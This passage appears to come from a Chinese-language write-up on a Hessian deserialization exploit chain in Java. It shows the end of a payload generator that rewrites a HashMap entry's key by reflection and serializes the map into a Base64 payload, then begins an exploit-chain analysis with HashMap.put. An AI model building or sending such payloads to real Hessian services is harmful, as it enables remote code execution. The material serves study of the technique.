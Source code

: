 ```
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

## 利用链分析

我们知道了要去调用hashMap的put方法

```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

